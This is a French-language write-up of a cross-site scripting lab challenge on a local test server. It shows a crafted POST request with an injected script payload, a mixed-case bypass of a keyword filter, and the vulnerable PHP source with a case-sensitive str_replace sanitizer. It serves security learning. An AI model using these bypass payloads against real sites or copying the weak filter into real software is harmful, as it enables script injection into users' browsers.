 # xss4

## Exploitation

Le quatrième challenge demande explicitement de tenter une injection en utilisant la balise `<script></script>` :&#x20;

![](<../../../.gitbook/assets/image (147).png>)

Une première protection que je rencontre est un contrôle du format de l'adresse email :&#x20;

![](<../../../.gitbook/assets/image (323).png>)

Un contournement en utilisant directement Burp est possible, mais ma payload ne semble pas fonctionner car le mot clé `script` est filtré :&#x20;

![](<../../../.gitbook/assets/image (258).png>)

```http
POST /xss4/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 51
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss4/

user_email=<script>alert(1)</script>&submit=Envoyer
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2094
Connection: close
Content-Type: text/html; charset=UTF-8

<div class="row">
  <p style="color:red;" class="well">
    <strong></strong><>alert(1)</> is not registered.
  </p>
</div>
```

Ici il doit s'agir d'une protection de type pattern matching, je tente de le contourner en modifiant ma façon d'écrire la balise Javascript, soit `<ScRiPT>alert(1)</sCRIpt>` :&#x20;

![](<../../../.gitbook/assets/image (34).png>)

## Analyse du code source

L'adresse email est récupéré dans la variable `$email`. Avant son affichage par la directive `echo`, un traitement est effectué par la méthode `xss_check_1()`. Cette méthode remplace le mot "script" par une chaîne de caractères vide mais sans faire attention à son format (minuscule, majuscule, répétition, etc) :

```php
<?php
  if (isset ($_POST['submit']) && isset ($_POST['user_email'])) {
    $email = $_POST['user_email'];
  }

  function xss_check_1($data) {
    // Converts only "<" and ">" to HTLM entities
    $input = str_replace("script", "", $data);
    $input = urldecode($input);
    return $input;
  }
?>

<div class="row">
  <p style="color:red;" class="well">
    <strong></strong><?php echo xss_check_1($email); ?> is not registered.
  </p>
</div>
```
